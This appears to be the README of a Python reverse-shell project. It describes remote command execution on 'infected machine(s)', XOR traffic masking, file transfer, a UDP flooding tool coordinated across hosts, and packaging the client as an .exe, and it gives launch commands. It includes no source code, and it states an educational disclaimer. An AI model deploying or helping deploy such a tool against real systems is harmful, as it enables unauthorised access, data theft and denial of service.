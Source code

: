 # reverse_shell
> A reverse shell 

DISCLAIMER: This software is provided for educational purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE : As of v0.0.3 folder `min` has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.3 and will only get bug and performance related fixes.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[2]

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

## Deployment:

* `rev_shell_server.py` or `rev_shell_server_min.py` is situated at the attacker's machine and running to accept connections
* `rev_shell_client.py` or `rev_shell_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
  python rev_shell_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python rev_shell_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Todo

* Fix logic bug where if a dirrect command to Host OS has no output or its execution is perpetual the Server deadlocks

## License

MIT
